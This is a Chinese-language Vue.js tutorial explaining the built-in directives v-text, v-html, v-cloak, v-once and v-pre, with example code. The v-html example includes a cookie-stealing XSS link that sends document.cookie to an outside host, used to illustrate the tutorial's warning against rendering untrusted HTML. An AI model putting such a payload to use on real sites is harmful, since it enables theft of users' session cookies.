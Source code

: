 ```yaml
---
title: 内置指令
autoPrev: filter
---
```

在Vue中提供了一些对于页面 + 数据的更为方便的输出，这些操作就叫做指令，以`v-xx` 表示。

我们上面文章用到的 `v-if`，`v-show`，`v-on` 等都属于内置指令，接下来继续介绍其他常用的内置指令。

### v-text

```html
<div id="root">
  <div v-text="name"></div>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'Hello Vue'
    }
  })
</script>
```
和插值语法`{{}}` 有点类似，但是 `v-text` 会替换掉节点中的内容，而`{{xx}}` 不会

### v-html

向指定节点中渲染包含html结构的内容。

```html
<div id="root">
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>
```

```js
<script type="text/javascript">
		new Vue({
			el:'#root',
			data:{
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
```

**<div style="color:red">注意</div>**：

v-html有安全性问题！！！！

在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！


### v-vloak

 v-cloak 指令设置样式，这些样式会在 Vue 实例编译结束时，从绑定的 HTML 元素上被移除。

当网络较慢，网页还在加载 Vue.js ，而导致 Vue 来不及渲染，这时页面就会显示出 Vue 源代码。我们可以使用 `v-cloak` 指令来解决这一问题。

```html
<div id="root">
  <h2 v-cloak>{{name}}</h2>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'Hello'
    }
  })
</script>
```
如果不加 `v-cloak` 在网速慢的情况下，会显示 `{{name}}`，之后才会渲染。

### v-once

v-once这个指令不需要任何表达式，它的作用就是定义它的元素或组件只会渲染一次，包括元素或者组件的所有字节点。首次渲染后，不再随着数据的改变而重新渲染。也就是说使用 `v-once`，那么该块都将被视为静态内容。

```html
<div id="root">
  <h2 v-once>初始化的n值是:{{n}}</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript"> 
  new Vue({
    el:'#root',
    data:{
      n:1
    }
  })
</script>
```

点击按钮没使用 `v-once` 的会发生改变，使用 `v-once` 的不会发生改变。

### v-pre

`v-pre` 跳过其所在节点的编译过程
```html
<div id="root">
  <h2 v-pre>当前的n值是:{{n}}</h2>
  <h2 >当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
```

```js
<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      n:1
    }
  })
</script>
```
使用 `v-pre` 的标签里面的插值表达式就失效了。


